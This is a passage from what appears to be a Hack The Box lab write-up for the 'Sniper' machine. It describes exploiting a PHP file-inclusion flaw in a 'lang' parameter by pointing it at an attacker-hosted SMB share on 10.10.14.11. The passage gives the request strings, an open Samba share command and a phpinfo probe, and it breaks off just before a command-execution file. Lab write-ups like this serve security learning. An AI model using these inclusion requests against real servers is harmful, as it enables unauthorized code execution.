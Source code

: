 Next I try to include a remote file through HTTP with `GET /blog/?lang=http://10.10.14.11/test.php` but I didn't get a callback so I assume remote file includes are disabled or there is some filtering done on the parameter.

Even though remote file includes are disabled, using a UNC path works since it's considered a local path by PHP and I'm able to get a callback through SMB on port 445 with `GET /blog/?lang=//10.10.14.11/test/test.php`

![](/assets/images/htb-writeup-sniper/smb1.png)

I can't get impacket-smbserver working right with this box so instead I'll use the standard Samba server in Linux and create an open share: `net usershare add test /root/htb/sniper/share '' 'Everyone:F' guest_ok=y`

Before trying to get RCE, I'll create an `info.php` file that calls `phpinfo()` so I can check for any disabled functions:

```php
<?php
phpinfo();
?>
```

After calling `phpinfo()` with `GET /blog/?lang=//10.10.14.11/test/info.php` I see that it's running Windows build 17763 and that no functions are disabled.

![](/assets/images/htb-writeup-sniper/info1.png)

![](/assets/images/htb-writeup-sniper/info2.png)

Next I'll create another PHP file to execute commands passed in the `cmd` parameter:
